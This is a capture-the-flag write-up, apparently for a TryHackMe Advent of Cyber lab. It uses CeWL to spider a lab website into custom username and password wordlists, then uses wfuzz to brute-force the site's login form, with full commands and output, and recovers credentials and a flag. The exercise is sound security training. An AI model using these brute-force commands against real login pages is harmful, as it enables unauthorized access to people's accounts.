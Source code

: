 # [Day 4] Brute-forcing - Baby, it's CeWLd outside
The AntarctiCrafts company, globally renowned for its avant-garde ice sculptures and toys, runs a portal facilitating confidential communications between its employees stationed in the extreme environments of the North and South Poles. However, a recent security breach has sent ripples through the organisation.

After a thorough investigation, the security team discovered that a notorious individual named McGreedy, known for his dealings in the dark web, had sold the company's credentials. This sale paved the way for a random hacker from the dark web to exploit the portal. The logs point to a brute-force attack. Normally, brute-forcing takes a long time. But in this case, the hacker gained access with only a few tries. It seems that the attacker had a customised wordlist. Perhaps they used a custom wordlist generator like CeWL. Let's try to test it out ourselves!

## Overview
CeWL (pronounced "cool") is a custom word list generator tool that spiders websites to create word lists based on the site's content. Spidering, in the context of web security and penetration testing, refers to the process of automatically navigating and cataloguing a website's content, often to retrieve the site structure, content, and other relevant details. This capability makes CeWL especially valuable to penetration testers aiming to brute-force login pages or uncover hidden directories using organisation-specific terminology.

Beyond simple wordlist generation, CeWL can also compile a list of email addresses or usernames identified in team members' page links. Such data can then serve as potential usernames in brute-force operations.

## Solution
### `CeWL`
To generate a password list, we can iterate over the whole website:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ cewl http://10.10.27.231/ -m 5 -d 2 --with-numbers -w passwords.txt
CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)

┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ tail passwords.txt
Chief
Happiness
Query
Email
quote
Visit
office
Message
Login
Submit

┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$
```

The parameters mean the following:
* `http://10.10.27.231/` target URL
* `-m 5` minimum length of the words
* `-d 2` depth to search when accessing links etc.
* `--with-numbers` adds also word with numbers
* `-w passwords.txt` output file

On the website we find a list of team members:

![Team](./images/team.png)

So we can try to use this single website to get a username:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ cewl http://10.10.27.231/team.php -m 5 --lowercase -w usernames.txt
CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)

┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ tail usernames.txt
telephone
support
image
query
email
visit
office
message
login
submit

┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ 
```

One different parameter is `--lowercase`. This creates only lowercase words.

### `wfuzz`
The website got a login interface for employees, which show the text `Please enter the correct credentials` if the login was wrong:

![Login](./images/login.png)

To use our list to brute force this website we can use `wfuzz`:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.27.231/login.php -d "username=FUZZ&password=FUZ2Z" 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.27.231/login.php
Total requests: 57937

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                   
=====================================================================

000016437:   302        118 L    297 W      4442 Ch     "isaias - Happiness"

Total time: 0
Processed Requests: 57937
Filtered Requests: 57936
Requests/sec.: 0


┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ 
```

The parameters are the following:
* `-z file,usernames.txt` use username list
* `-z file,passwords.txt` use password list
* `--hs "Please enter the correct credentials"` hides responses containing the string "Please enter the correct credentials"
* `-u http://10.10.27.231/login.php` target URL
* `-d "username=FUZZ&password=FUZ2Z"` POST request where FUZZ will be replaced by usernames and FUZ2Z by passwords

### Confidential Message
If we login with the found credentials we can find the flag in the mail called `Confidential Message`:

![Mail](./images/mail.png)